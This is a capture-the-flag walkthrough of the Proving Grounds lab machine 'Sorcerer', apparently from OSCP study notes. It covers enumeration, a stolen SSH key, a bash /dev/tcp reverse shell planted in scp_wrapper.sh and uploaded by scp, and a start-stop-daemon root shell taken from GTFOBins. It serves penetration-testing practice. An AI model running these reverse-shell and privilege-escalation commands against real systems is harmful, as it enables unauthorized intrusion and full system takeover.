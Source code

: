 #### Enumeration

##### Nmap 

```
nmap -Pn -p- -sC -sV 192.168.206.100 -T4 -oN Sorcerer.nmap
```
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.26_20h04m29s_001_.png)

The website on 80 port only displays text messages, checking the code to confirm that it is only plain text.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.26_20h36m59s_009_.png)

No special directory was found during the scan.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.26_20h21m34s_002_.png)

The attempt to log in with common credentials failed.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.26_20h19m21s_003_.png)

Checking the code looks like the page is no actual login function.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.26_20h26m45s_006_.png)

If there is no actual login function, there may be hidden directories. The directory scan shows two directories zipfiles and default.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.26_20h31m18s_007_.png)

There are four compressed files in the zipfiles directory.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.26_20h51m19s_010_.png)

The default directory is the same as the website on port 80. It only displays text messages.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.26_20h55m00s_011_.png)

Find ssh folder in max.zip. When trying to login with private key, it is found that ssh login has been forbidden. Only scp can be used.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.26_23h58m36s_014_.png)

Try to use `scp` to upload and download website directories, but there is nothing special found, and PHP should not be able to use.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.27_00h01m13s_015_.png)

Reexamine scp_wrapper.sh in max.zip. After searching, we know that scp_wrapper.sh is used to set a program that does not allow ssh login. We can change scp_wrapper.sh to get the reverse shell.

scp_wrapper.sh: [setting reference](https://serverfault.com/questions/83856/allow-scp-but-not-actual-login-using-ssh) 

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.26_23h56m06s_013_.png)

Modify the source code of scp_wrapper.sh.

```
#!/bin/bash
/bin/bash -l > /dev/tcp/<LHOST>/<LPORT> 0<&1 2>&1
```
Then use the scp command to upload wrapper.sh with reverse shell content.

```
scp -i ~/Downloads/id_rsa ~/Documents/OffSecPG/Sorcerer/scp_wrapper.sh max@<RHOST>:/home/max
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.27_00h42m14s_016_.png)

Monitor port 80 to execute ssh login.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.27_00h46m13s_017_.png)

Get the reverse shell connection and local.txt successfully.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.27_00h48m49s_019_.png)

#### Privilege Escalation

The linpeas.sh find that /usr/sbin/start-stop-daemon is run by root.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.27_01h16m54s_020_.png)

Find instructions in [GTFOBins](https://gtfobins.github.io/) to elevate permissions.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.27_15h59m02s_001_.png)

```
/usr/sbin/start-stop-daemon -n $RANDOM -S -x /bin/sh -- -p
```
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.27_01h26m46s_022_.png)

